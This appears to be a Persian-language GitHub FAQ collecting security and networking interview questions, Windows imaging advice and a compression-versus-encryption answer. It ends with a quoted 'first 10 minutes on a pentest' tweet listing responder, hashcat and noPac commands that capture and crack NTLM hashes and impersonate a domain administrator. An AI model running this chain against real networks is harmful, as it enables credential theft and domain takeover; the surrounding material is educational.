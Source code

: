 # FAQs
FAQs On Web
سوالات جالب توجه که در سایت های مختلف دیدم :
سوال مصاحبه: وقتی به یه پورت تو لینوکس که هیچ پروسه‌ای روش LISTEN نمیکنه، پکت SYN میفرستیم، چه جوابی میگیریم و جواب از کجا میاد؟
یکی از بخشای مورد علاقه من تو این سوال بررسی Chain of trust توسط مرورگر هست و اینکه چطور مرورگر یک TLS certificate رو اعتبار سنجی میکنهQuote TweetAlireza Vaziri@aliereza · 17hسوال مصاحبه: تو مرورگر تایپ میکنی http://google.com، از لحظه‌ای که اینتر میزنی تا زمانی که صفحه کامل لود میشه چه اتفاق‌های میوفته؟ (جواب مورد قبول توضیح دقیق در حد ۵ دقیقه یا بیشتر هست)



اگه من مصاحبه ‌کنم:

۱. یه سایت رو توی مرورگر باز می‌کنیم، چی میشه؟
۲. چطوری میشه جلوی CSRF رو گرفت؟
۳. با Open Redirect چکار می‌شه کرد؟
۴. سرور اینترنت‌بانک ملت بنظرت اینترنت داره؟
۵. یه فایل آپلود پسوند رو امن چک می‌کنه، چه تستی می‌کنی؟

جواب رو میشه طوری داد که به سوال ۶ نرسه.
--------

اگر سیستم عاملی آلوده بشه و مجبور بشید که سیستم عاملش رو تعویض کنید، وقتی اولین بار نصبش کردید و بوت شد و آمد بالا، بازم در شبکه ای آلوده، روشن شده و تا بیایید شبکه ر‌و وصل کنید که ویندوز آپدیت کنید و آنتی ویروس نصب کنید، احتمال اینکه دوباره آلوده بشه خیلی بالاست.
راهکار چیه ؟
شما هر نوع ویندوزی که نیاز دارید، در یک شبکه ی ایزوله از شبکه ی عملیاتی و کاری نصب کنید و آخرین به روزرسانی ها رو هم نصب میکنید و با سرویس های:
WDS or SCCM
یک ایمیج قابل نصب ویندوز، تهیه میکنید و هر زمانی که نیاز بود ویندوز جدید نصب کنید، با این سرویس اینکار رو انجام میدید، که باعث میشه اولین بوت در اون سیستم عامل، ویندوز فول آپدیت داشته باشید. اما هنوز مسئله ی دوم یعنی آنتی ویروس باقیمانده. اینجاست که بازم ویندوز دیفندر میدرخشنه اونم بدون هزینه.
مایکروسافت امکان ایمپورت کردن آپدیت ویندوز دیفندر روی ایمیج های آفلاین ویندوز رو ارائه کرده، یعنی شما آخرین آپدیت آنتی ویروس ویندوز دیفندر رو دانلود میکنید و با کامند پاورشل ایمپورت می کنید توی ایمیج ویندوزتون.
حالا وقتی از اون ایمیج ویندوز، دارید هر جایی ویندوز نصب میکنید، اولین باری که اون سیستم عامل بوت میشه و در شبکه روشن میشه، هم ویندوزش آپدیت هست و هم آنتی ویروس اش. پس اگر در شبکه ی آلوده نصب و روشن بشه، احتمال آلودگی دوباره اش خیلی میاد پایین.


میشه گفت کدوم بهینه‌اس؟
۱. یه دیتا رو اول فشرده کنیم بعد رمزنگاری
۲. اول رمزنگاری بشه بعد فشرده‌سازی
پاسخ: دیتای رمزشده رو نمیشه فشرده کرد.
یعنی می‌ره تو الگوریتم ولی چیزی از حجمش کم نمیشه.
فشرده سازی معمولا تابعی از correlation دیتا اولیه هست، اگر اول رمزنگاری کنی کیفیت فشرده سازی ممکنه خراب بشه چون تضمینی نیست دیتای رمزنگاری شده هم همون correlation دیتای اصلی رو داشته باشه




vFirst 10 minutes on a pentest:

1) responder -I eth0 -Pv
3) hashcat.bin -m 5600 -O -w 3 hash.txt rockyou.txt -r clem9669_small.rule (thanks @Bandrel
)
4) http://noPac.py example/user:'pass' -dc-ip 10.0.0.1 -dc-host dc1 --impersonate administrator -dump

Now I'm a DA!

